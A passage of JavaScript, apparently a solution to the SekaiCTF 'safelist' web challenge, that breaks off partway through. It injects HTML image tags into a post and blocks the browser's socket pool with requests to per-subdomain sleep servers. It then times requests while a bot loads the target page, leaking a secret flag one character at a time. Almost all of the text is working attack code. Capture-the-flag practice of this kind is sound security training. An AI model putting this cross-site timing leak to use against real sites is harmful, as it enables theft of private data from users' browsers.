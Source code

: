 ```html
    // Similar to JQuery
    const $ = document.querySelector.bind(document);
    
    // Known part of the flag
    const known = "SEKAI{";
    let alphabet = "_abcdefghijklmnopqrstuvwxyz}";
    
    // Reduce the alphabet using a hash (#) in the URL
    if (location.hash) {
        alphabet = alphabet.slice(alphabet.indexOf(location.hash.slice(1)));
    }
    
    // Funtion to leak chars
    const leak = async (c) => {
        // Prepare post with known flag and the new char
        let payload = `${known + c}`;
        // Inject as many <img as possible
        // you need to respect the CSP and create URLs that are different
        for(let i = 0; payload.length < 2048; i++) {
            payload += `<img src=js/purify.js?${i.toString(36)}>`;
        }
        
        // Inject HTML
        $("#create input[type=text]").value = payload;
        $("#create").submit();
        await new Promise(r => setTimeout(r, 1000));
        
        // Remove post with index 0
        $("#remove").submit();
        await new Promise(r => setTimeout(r, 500));
        
        let deltas = [];
        
        // Try each char 3 times
        for (let i = 0; i < 3; i++) {
            const SOCKET_LIMIT = 255;
            // you will need a custom server that works like num.sleepserver.com/sleep/delay
            // needed to freeze the blocked sockets, and they have to all be on different origins
            // Check https://www.npmjs.com/package/sleep-server using subdomains DNS wildcard
            const SLEEP_SERVER = i => `http://${i}.sleepserver.com/sleep/60`; 

            const block = async (i, controller) => {
                try {
                    return fetch(SLEEP_SERVER(i), { mode: "no-cors", signal: controller.signal });
                }
                catch(err) {}
            };

            // block SOCKET_LIMIT sockets
            const controller = new AbortController();
            for (let i = 0; i < SOCKET_LIMIT; i++) {
                block(i, controller);
            }
            
            // Make the bot access the page with the posts
            window.open("https://safelist.ctf.sekai.team/?" + Math.random().toString(36).slice(2), "pwn");
            await new Promise(r => setTimeout(r, 500));
            
            // start meassuring time to perform 5 requests
            let start = performance.now();
            await Promise.all([
                fetch("https://example.com", { mode: "no-cors" }),
```